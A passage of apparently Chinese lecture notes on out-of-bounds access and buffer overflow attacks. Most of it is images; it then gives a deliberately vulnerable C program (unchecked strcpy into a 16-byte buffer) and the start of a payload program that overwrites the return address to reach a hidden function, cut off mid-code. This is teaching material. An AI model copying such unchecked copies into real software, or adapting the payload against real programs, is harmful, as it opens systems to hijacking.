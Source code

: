 ```
size=15
size=16
size=16
```
## 第4讲 越界访问和缓冲区溢出攻击

### 越界访问和缓冲区溢出攻击（27分钟）

![](https://cdn.jsdelivr.net/gh/Rosefinch-Midsummer/MyImagesHost02/img/202310231103058.png)

![](https://cdn.jsdelivr.net/gh/Rosefinch-Midsummer/MyImagesHost02/img/202310231104760.png)

![](https://cdn.jsdelivr.net/gh/Rosefinch-Midsummer/MyImagesHost01/img/202311010842877.png)

![](https://cdn.jsdelivr.net/gh/Rosefinch-Midsummer/MyImagesHost01/img/202311010846780.png)

![](https://cdn.jsdelivr.net/gh/Rosefinch-Midsummer/MyImagesHost01/img/202311010850981.png)

![](https://cdn.jsdelivr.net/gh/Rosefinch-Midsummer/MyImagesHost01/img/202311010858130.png)

![](https://cdn.jsdelivr.net/gh/Rosefinch-Midsummer/MyImagesHost01/img/202311010901873.png)


test.c文件内容：

```c
#include <stdio.h>
#include <string.h>

void outputs(char *str)
{
    char buffer[16];
    strcpy(buffer,str);
    printf("%s\n",buffer);
}

void cracker(void)
{
    printf("Being cracked\n");
}
int main(int argc,char *argv[])
{
    outputs(argv[1]);
    return 0;
}
```

main.c文件内容：

```c
#include <stdio.h>
#define _GNU_SOURCE
#include <unistd.h>
char code[]=
    "0123456789ABCDEFXXXX"
    "\x11\x84\x04\x08"
    "\x00";

int main()
{
    char *argv[3];
    argv[0]="./test";
    argv[1]=code;
```